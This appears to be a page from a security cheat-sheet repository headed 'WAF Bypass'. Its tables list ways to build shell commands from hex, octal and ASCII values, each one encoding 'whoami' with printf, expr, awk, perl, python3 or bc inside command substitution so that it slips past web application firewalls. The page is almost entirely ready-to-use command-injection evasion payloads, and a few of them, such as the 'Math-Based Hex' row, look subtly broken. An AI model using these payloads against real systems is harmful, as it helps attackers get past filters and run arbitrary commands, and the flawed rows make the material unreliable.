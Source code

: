 
---

## WAF Bypass

# Advanced Command Construction Techniques

## Dynamic Character Generation

### Hexadecimal Manipulation

|Technique|Example|Explanation|
|---|---|---|
|Basic Hex Print|$(printf "\x77\x68\x6f\x61\x6d\x69")|Directly prints hex values for each character|
|Dynamic Hex Calc|$(printf "\x$(printf %x 119)\x$(printf %x 104)\x$(printf %x 111)\x$(printf %x 97)\x$(printf %x 109)\x$(printf %x 105)")|Calculates hex values dynamically|
|Math-Based Hex|$(printf "\x$(expr 119)\x$(expr 104)\x$(expr 111)\x$(expr 97)\x$(expr 109)\x$(expr 105)")|Uses expr for hex calculations|
|Split Hex|$(X=77;Y=68;printf "\x$X\x$Y\x6f\x61\x6d\x69")|Splits hex values across variables|
|Random-Based Hex|$(for i in 119 104 111 97 109 105;do printf "\x$(printf %x $(expr $i))";done)|Generates hex values in a loop|

### Octal Encoding

| Technique      | Example                                                                 | Explanation                     |
| -------------- | ----------------------------------------------------------------------- | ------------------------------- |
| Direct Octal   | $(printf "%b" "\167\150\157\141\155\151")                               | Uses octal values directly      |
| Split Octal    | $(printf "%b" "\167""\150""\157""\141""\155""\151")                     | Splits octal values into parts  |
| Variable Octal | $(a=167;b=150;printf "%b" "\$a\$b\157\141\155\151")                     | Uses variables for octal values |
| Computed Octal | $(printf "%b" $(for i in 167 150 157 141 155 151;do printf "\$i";done)) | Computes octal in loop          |
| Dynamic Octal  | $(printf "%b" "$(printf %o 119)$(printf %o 104)\157\141\155\151")       | Generates octal dynamically     |



### ASCII Value Processing

|Technique|Example|Explanation|
|---|---|---|
|AWK ASCII|$(awk 'BEGIN{printf "%c%c%c%c%c%c",119,104,111,97,109,105}')|Uses AWK for ASCII conversion|
|Perl ASCII|$(perl -e 'print pack("C*",119,104,111,97,109,105)')|Uses Perl pack function|
|Python ASCII|$(python3 -c 'print("".join([chr(x) for x in [119,104,111,97,109,105]]))')|Python character generation|
|BC Calculation|$(for i in 119 104 111 97 109 105;do echo "obase=8;$i"\|bc\|tr -d '\n';done\|xargs printf "%b")|Uses BC for conversion|
|Expr ASCII|$(for x in 119 104 111 97 109 105;do printf "%b" "\$(printf %o $x)";done)|Uses expr for ASCII|
